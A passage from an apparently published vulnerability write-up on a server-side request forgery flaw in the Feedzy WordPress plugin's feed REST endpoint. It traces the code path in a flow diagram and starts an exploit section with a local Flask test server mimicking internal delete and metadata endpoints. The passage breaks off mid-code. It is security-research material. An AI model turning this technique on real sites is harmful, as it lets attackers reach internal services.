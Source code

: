 => We see the requested file is expected to be XML

```php
$this->fetch_data($cache)
```

This is where the HTTP request to the user-supplied URL is performed.

### Flow

{{< mermaid >}}
graph TD
A["User input via /feedzy/v1/feed (REST API)"] --> B["feedzy_sanitize_feeds()"]
B --> C["esc_url() → no internal host validation"]
C --> D["feedzy_rest_route()"]
D --> E["Feedzy_Rss_Feeds::instance()"]
E --> F["$admin->fetch_feed(url)"]
F --> G{"feedzy_amazon_get_locale_hosts() exists?"}
G -- No --> H["init_feed()"]
H --> I["Feedzy_Rss_Feeds_Util_SimplePie::init()"]
I --> J["fetch_data(cache)"]
J --> K["HTTP request to user-controlled URL → SSRF"]
{{< /mermaid >}}

## Exploit

### Local Server

Create a simple local service using Python

```py
from flask import Flask, request, send_from_directory, Response
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/delete', methods=['GET'])
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

@app.route('/feed', methods=['GET'])
def feed():
    xml_content = """<?xml version="1.0" encoding="UTF-8"?>
    <rss version="2.0">
      <channel>
        <title>Example Feed</title>
        <link>https://example.com</link>
        <description>This is a sample RSS feed generated by Flask.</description>
        <item>
          <title>First item</title>
          <link>https://example.com/item1</link>
          <description>Hello world!</description>
        </item>
        <item>
          <title>Second item</title>
          <link>https://example.com/item2</link>
```